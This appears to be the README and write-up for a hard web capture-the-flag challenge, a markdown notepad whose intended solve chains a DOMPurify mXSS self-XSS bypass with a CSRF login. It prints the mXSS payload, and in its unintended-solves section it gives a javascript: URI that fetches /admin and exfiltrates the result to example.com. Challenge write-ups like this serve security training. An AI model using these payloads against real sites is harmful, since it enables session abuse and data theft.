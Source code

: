 # Notepad

**Category**: web

**Difficulty**: Hard

**Author**: todo#7331

## Flavour

I made a markdown editor for all your hacking notes!

## Description

A CSRF challenge which aims to get users to weaponize a self XSS.

Users able able to do a simple self stored xss using a well-known mxss payload to bypass dompurify. The difficulty will be to modify this payload into something that can perform non-trivial actions.
Pretty much every page on the site is also vulnerable to CSRF attacks. Players can hence direct the admin to a custom site containing two iframes to perform a CSRF chain exploit in order to leak the content of a admin-only route.

Difficulty is hard as it involves chaining together two medium-hard difficulty exploits.

## Writeup

_A solve script can be found in ./solve - the hosts will need to be updated_

1. Player notices the use of DOMPurify < 2.1.0, this has well known mxss bypasses.
    1. e.g. `<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">`
    1. This payload needs to be slightly adapted since it is injected into a markdown environment which will wrap it in `<p></p>`
    1. Since this is naive we can wrap this as `a</p>MXSS<style>` to close the opening `<p>` and ignore the trailing `</p>`
2. Player is then able to setup a arbitrary self-xss
3. Player notices `/admin` endpoint which probably we want to look at
4. Player notices the compelte lack of csrf protections on a application that is very form driven
5. Player constructs a exploit chain as follows
    1. Player puts a self-xss payload which attempt to exfil the contents of `/admin`
    2. Player performs a CSRF to login the admin in as their own account
        1. The player observes that the login doesn't reset the `admin` flag and as such we can both trigger the self-xss and be a admin
    3. The self-xss triggers and exfils the flag

## Unintended Solves

 - An unintended solve was found where it was possible to send the admin directly to a `javascript:` uri, allowing simple xss without any csrf
   - Payload by @WeaveAche: `javascript:fetch("https://web-notepad-f6ed1a7d.chal-2021.duc.tf/admin").then(a => {a.text().then(b)=>fetch("http://example.com/?data="+btoa(b))})})`

## Running

`docker-compose up`

Can be shared, we don't even need to pray to the uuid gods.
